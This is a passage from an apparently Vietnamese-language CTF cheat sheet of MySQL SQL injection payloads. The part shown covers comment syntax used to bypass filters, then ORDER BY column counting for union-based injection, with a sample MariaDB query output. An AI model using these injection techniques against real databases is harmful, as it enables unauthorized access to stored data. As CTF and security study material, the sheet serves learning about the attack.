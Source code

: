 # Mysql

- Lưu ý 1 số payload mình sẽ giữ nguyên định dạng *query* gốc để các bạn hiểu rõ vấn đề, còn trong ctf thực tế bạn phải đoán được *query* của đề để cắt ghép sử dụng payload 
- Không phải hàm nào mình cũng giải thích chức năng nên các bạn chịu khó *reseach* để tìm hiểu
- Nên lưu ý đây là nơi mình tổng hợp các payload, nên đa số các payload mình thường không giải thích rõ, các bạn *research* chức năng của hàm rồi từ từ phân tích là sẽ hiểu
- Tổng hợp 1 số hàm trong *Mysql*: [Link1](https://viblo.asia/p/cac-function-trong-mysql-phan-1-yMnKMnODZ7P) [Link2](https://viblo.asia/p/cac-function-trong-mysql-phan-2-GrLZDvD35k0)

---

### 1. Mysql comment

- `# comment`
- `-- comment`
  - Tuy nhiên *comment* này có 1 chút đặc thù. Gỉa sử nếu comment như thế này sẽ sinh ra lỗi
  - `--comment`
  - Yêu cầu *comment* phải cách `--` ít nhất 1 khoảng trắng
  - Chi tiết này tuy nhỏ nhưng đôi khi cũng xảy ra sai xót
- `/* comment */`
  - *comment* này khác với những *comment* trên là chúng cho phép ta *comment* trên nhiều dòng
- `/*! MySQL-specific code */`
  - *code* này có thể *compile* được bởi *Mysql* nhưng với *server* khác thì nó được coi là 1 *comment*
  - Ngoài ra nó còn nhiều thứ đặc biệt khác, có thể tham khảo *doc* này của *mysql* để biết thêm: [Link](https://dev.mysql.com/doc/refman/8.0/en/comments.html)
- Các *comment* rất hữu dụng trong các trường hợp khi ta không *bypass* được 1 số *parameter* chẳng hạn
- Còn vô số chức năng khác mà bạn không ngờ tới với *comment*

---

### 2. Mysql union based

- Ta sử dụng `ORDER BY`  để xác định số cột của table

  ```
  ORDER BY 1
  ORDER BY 2
  ORDER BY 3
  ...
  ORDER BY n
  ```

- VD đơn giản, table của ta chỉ có 2 cột, nếu ta thử với *ORDER BY 3* thì nó sẽ báo lỗi

  ```mysql
  MariaDB [xssuser]> select * from menu;
  +----+-----------+
  | ID | NAME_MENU |
  +----+-----------+
  |  1 | Menu 2    |
  |  2 | Menu 4    |
  |  3 | Menu 5    |
  |  4 | Menu 6    |
  |  5 | Menu 7    |
  |  6 | Menu 8    |
  |  7 | asdf      |
  |  8 | kaito     |
  +----+-----------+
  8 rows in set (0.00 sec)
  ```
